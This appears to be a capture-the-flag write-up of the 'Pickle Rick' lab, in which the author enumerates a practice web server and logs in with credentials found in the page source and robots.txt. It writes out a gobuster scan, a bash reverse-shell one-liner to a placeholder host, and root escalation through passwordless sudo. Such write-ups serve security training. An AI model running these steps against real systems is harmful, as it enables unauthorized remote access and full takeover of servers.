



Pickle Rick CTF
Exploit a web server to retrieve three secret ingredients to help Rick transform back into a human.
Introduction
This challenge involved exploiting a web application to retrieve three secret ingredients required for Rick's potion. The main tasks included directory enumeration, login bypass, and privilege escalation.
Step 1: Enumerating the Web Server
The first step was to scan the web server for hidden directories and files using gobuster:
gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip -o pickle.txt

The scan revealed interesting directories, including:
- /index.html - Contained a username: R1ckRul3s
- /robots.txt - Contained a potential password: WubbaLubbaDubDub
- /login.php - A login portal requiring credentials
Step 2: Logging In
Using the username and password found, I attempted to log in to the /login.php portal. I successfully authenticated with:
Username: R1ckRul3s
Password: WubbaLubbaDubDub
After logging in, I gained access to a restricted panel where commands could be executed.

Step 3: Retrieving the First Ingredient
Running ls in the command panel revealed a file containing the first ingredient:

So I tried to display the ingredient and got an error, has I coudln't see the inside of the file, unless I was the REAL RICK.
cat Sup3rS3cretPickl3Ingred.txt
Step 4: Privilege Escalation & Finding Remaining Ingredients
I then decided to create a reverse shell using bash and netcat:
bash -c 'bash -i >& /dev/tcp/x.x.x.x/8080 0>&1'
I was then able to display the first ingredient:
cat Sup3rS3cretPickl3Ingred.txt
Output: mr. meeseek hair
I then navigated to Rick's home directory /home/rick, where I found another file:
cat second_ingredient.txt
Output: 1 jerry tear
Checking sudo -l revealed that www-data had root access without requiring a password.
I escalated privileges to root and navigated to the root directory to find the final ingredient:
sudo bash -i
cd /root
cat 3rd.txt
Output: fleeb juice
Conclusion
This challenge reinforced essential web exploitation techniques by demonstrating how to identify and exploit vulnerabilities in a web application. The key takeaways include:
- Directory Enumeration: By scanning the web server for hidden directories and files, we uncovered sensitive information such as usernames, passwords, and login portals that provided access to restricted areas.
- Credential-based Authentication Bypass: Using the discovered credentials from the enumeration step, we successfully bypassed authentication mechanisms, gaining access to restricted resources within the system.
- Privilege Escalation: Once inside, further analysis allowed us to escalate our privileges by leveraging misconfigurations or additional vulnerabilities, ultimately retrieving high-value files and system information.
These methodologies are fundamental in penetration testing and cybersecurity, emphasizing the importance of proper web application security measures, including restricting access to sensitive files, implementing strong authentication mechanisms, and monitoring for unauthorized access attempts.